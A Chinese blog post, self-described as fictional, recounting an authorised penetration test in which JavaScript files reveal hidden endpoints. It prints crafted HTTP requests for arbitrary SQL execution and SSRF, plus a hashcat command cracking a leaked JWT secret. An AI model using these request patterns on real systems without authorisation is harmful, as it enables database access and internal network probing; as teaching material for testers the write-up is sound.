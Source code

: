 #  渗透案例：巧用JS挖掘“宝藏”   
原创 XavierRoot  X的碎碎念   2025-01-09 16:53  
  
声明：本文纯属虚构，如有雷同纯属巧合。  
## 背景  
  
一个寻常的工作日，小X 收到任务对 A 集团某系统进行渗透测试，但是不能用自己电脑，需要远控客户电脑进行测试。（因此，以下内容配图都不是原图，  
尽量还原，  
都是虚构的）  
  
连上客户电脑，简单看了下环境，还好，是有Burpsuite的，不算天崩开局。BP一开，Link start！果然一个标准登录框：账户、密码、图形验证码。  
## 1 - 碰壁  
  
常规思路是对系统进行路径扫描，客户电脑上没有工具，就用 Burp 自带的字典扫描一下，没什么发现。  
  
同时对登录框进行常规测试：弱口令、用户名密码枚举、验证码缺陷等，未复习漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uELQtFvdqZyEr4H4MHjlpxuBeJfSCF0ZdoW3DWcLCrOWN9thDMcQBqMHyn8qdm1AJYRNWk1zNYT3p1FMRSaSeg/640?wx_fmt=png&from=appmsg "")  
## 2 - JS的救赎  
  
接下去对系统前端界面进行分析，通过抓包分析很神奇的事情，这个网站没有明确的.js和.css结尾的文件，怎么会呢，不科学。  
  
分析数据包发现当访问系统域名时，会自动重定向到登录页面，但是这个过程中有个链接是这样的  
```
/include.html?page=/path/login.jsp&type=css&xxx&files=index.css;.../static/xxxx.css;
/include.html?page=/path/login.jsp&type=js&xxx&files=index.js;.../static/xxxx.js;
```  
  
对这个链接进行分析，分析相应功能网页的JS和CSS文件都是通过include.html进行统一加载。  
  
那么这么一个链接，有哪些可能的漏洞呢？  
  
我在这块测试了文件读取、SSRF等，未发现有效漏洞。  
  
通过上述链接，当   
type=js  
 时，会加载默认的JS文件，再加上所指定JS文件，对该JS进行分析，终于有所收获了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uELQtFvdqZyEr4H4MHjlpxuBeJfSCF0ZSp8hz7MPxaIq97tmnw8Kt1J2mA7cXX9JftAkIY1V9O8EX6ZGV6pmeQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uELQtFvdqZyEr4H4MHjlpxuBeJfSCF0ZDojoia5e98a95uHRva2oeIwUj9VfOb2eYBYZpcNh5dS1YY36DPRJcLg/640?wx_fmt=png&from=appmsg "")  
  
对JS文件进行扫描，发现了很多接口。  
  
虽然有些接口访问是404，有些接口访问401，无法利用。  
```
/common/linkeditor.jsp?parentPage=pagedesigner&url=
/admin/upload.htm
/admin/deleteTempFile.htm?fileName=
……
```  
  
但是也成功找到了一些能够访问的接口，如下：  
```
/runSafeScript.htm?sqlId=
/runScript.htm
/runStoredProcedure.htm
/runJavaMethod.htm
/runPython.htm
/runHttp.htm
```  
  
对相应接口的JS代码进行分析，成功构造了  
runScript  
 和   
runHttp  
 的请求包，并利用成功。  
### SQL执行  
```
function runSQL(e, t) {
  …………
  $.ajax({
      url: getBasePath() + "/runScript.htm",
      type: "post",
      async: !1,
      data: { script: encodeBase64Twice(i), dataSource: t || "current" },
      success: function (e) {  a = e; },
    })
	……
}
```  
  
根据 JS 构造请求包：  
```
POST /runScript.htm HTTP/1.1
Host: xxxxxx

script={双重Base64的SQL语句}&dataSource=current
```  
  
使用建议SQL语句  
select 1;  
 ，  
select 'a'  
 探测都成功了，但是   
select database()  
，  
SELECT banner FROM v$version  
 等都没执行成功。  
  
在这块花了很多时间，进行漫长的探测，常见的SQL语句都无法成功执行，由于时间紧迫一度打算放弃了。最后想着再试一次，从头整理探测思路判断数据库，最终确定了系统的数据库类型为 Postgresql，而不是前期判断的 MySQL、Oracle、MSSQL、DMSQL。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uELQtFvdqZyEr4H4MHjlpxuBeJfSCF0ZQ2kXZxoCGE460WvT4tMdCYaTIuFiaBzjDxSNYZAicXsjfrbjGZOicI8WQ/640?wx_fmt=png&from=appmsg "")  
  
SQL语句执行成功。  
  
### SSRF  
  
再看另一个接口  
runHttp.htm  
 的 JS代码  
```
function runHttp(e, t, n, r, i) {
  $.post(
    getBasePath() + "/runHttp.htm",
    { url: e, method: t, data: n, header: r },
    function (e) {
      i && i(e);
    }
  );
}
```  
  
根据上述 JS 代码可构造如下HTTP请求  
```
POST /runHttp.htm HTTP/1.1
Host: xxxxxxx

url=http://xxxxx/statics/xxxx.js&method=get&data=&header=
```  
  
这块没什么好多说的，构造请求后runHttp 成功，能够实现SSRF探测，向目标URL进行请求并获取其响应内容。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uELQtFvdqZyEr4H4MHjlpxuBeJfSCF0ZlfSLokicehQdDcwGicaz9KCt0IsQnsUNwgERNsVsGDtvf97xJlHOJWkA/640?wx_fmt=png&from=appmsg "")  
  
## 3 - 虚晃的 JWT  
  
在JS中除了上述接口之外，还找到了一条 JWT Token泄露。对于JWT Token 的泄露，直接利用肯定是不行，一般都是过期了的。  
  
这里对 JWT 的 secret Key 进行了枚举，还真是有弱 secret key，通过hashcat进行暴破，示例如下：  
```
$ hashcat -m 16500 test.jwt.hash ./jwt.secrets.list --force --quiet --show
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYmYiOjE2NzU5MTAwNjcsInVzZXJpZCI6ImZhMTIzMDZlLTEwYmMtNGYyNS1hNWU3LWY2NDIyNWJhMzAyNCIsImV4cCI6MTY3NTk1MDA2NywiaWF0IjoxNjc1OTEwMDY3LCJ1c2VybmFtZSI6Inh4eHhkZW1vMSJ9.xpqoFsaqwBcpYuslV5BvjWpWPH31fExNoDcE-gbryKs:123456
```  
  
后续尝试利用该secret key进行 JWT 伪造，但是没有利用成功。说明当前系统的secret key很可能已经变更了。  
  
不过通过这个JWT解码后，获取到了用户名xxxxdemo1  
  
后续可以尝试用户名密码枚举，不过当前环境下没有这个条件。  
  
## 后续  
  
后续客户给我们提供了测试账户，后面的测试就比较正常了。不过不知道是不是因为测试账号权限比较低，反正所提供的账户是没有之前发现的SQL执行和SSRF的接口的。  
  
所以还是要关注 JS文件中的信息，能有效扩展我们的攻击面，也许会有意外之喜。  
  
最后祝大家工作顺利，Have a nice day!   
  
  
